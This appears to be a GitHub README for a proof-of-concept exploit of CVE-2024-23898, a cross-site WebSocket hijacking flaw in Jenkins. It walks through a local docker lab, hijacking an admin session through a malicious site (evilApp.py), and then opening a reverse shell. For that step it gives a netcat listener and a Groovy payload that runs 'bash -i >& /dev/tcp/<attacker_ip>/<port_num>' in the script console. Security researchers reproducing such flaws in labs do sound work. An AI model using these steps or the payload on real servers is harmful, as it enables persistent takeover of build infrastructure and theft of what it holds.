 # Jenkins CLI Websocket Hijacking - PoC
 A proof of concept for CVE-2024-23898, a cross-site WebSocket hijacking vulnerability affecting Jenkins versions 2.217-2.441.  
 
 This exploits targets the Jenkins CLI that can be used to remotely access and issue commands to a Jenkins control server.  Through this exploit a remote attacker can gain access to and establish a persistent back-door to a Jenkins control server if an administrator is tricked into visiting a malicious site while logged-in to the target Jenkins control server.


# Setting Up Jenkins
- Run "docker-compose build && docker-compose up -d"
- Navigate to http://localhost:8080, you will be prompted for an admin password
- Open a shell in the jenkins docker container (NOT THE POSTGRES ONE)
    - "docker exec -it <container_id> bash"
    - cd to directory listeed on the Jenkins page, acquire the password
- Set up a basic admin account (remember the password) and install default plugins 
-Configure anonymous users with basic permissions by going to Manage Jenkins > Security 
	- Set authorization type to "Matrix-based"
	- Allow anonymous users to read "Overall" and "Job"

# Conducting Websocket Hijacking
- Open Firefox, go to Settings > Security & Privacy
    - Set Browser Privacy to custom, toggle Cookies "off" (this makes Firefox allow all cookies through)
- Go to Jenkins, login as the admin, making sure to click "Keep me signed in"
- Lauch evilApp.py, visiting on http://localhost:5000
    - Go to Network and hit refresh
    - Click on the packet with file "ws" and go to Response, you should see that is says "Authenticated as: admin""
        -  You can also check "Cookies" to see the remember-me cookie

# Executing a reverse shell
- In your machine's terminal, start a netcat listener with `nc -l <port_num>` (replace <port_num> with any unused port number)
- You must obtain your computer's IP address as seen by Docker. On Mac you can find this with the command `ipconfig getifaddr en0`
- Assuming your Jenkins server is running, go to `[http://localhost:8080/script](http://localhost:8080/script)`. Log in as the admin account if you have not already.
- Paste and execute this payload into the Groovy script console: `['bash', '-c', 'bash -i >& /dev/tcp/<attacker_ip>/<port_num> 0>&1'].execute()`
- Go back to the terminal with the netcat listener. You should be in the Jenkins server's file system and able to do anything the admin user can.
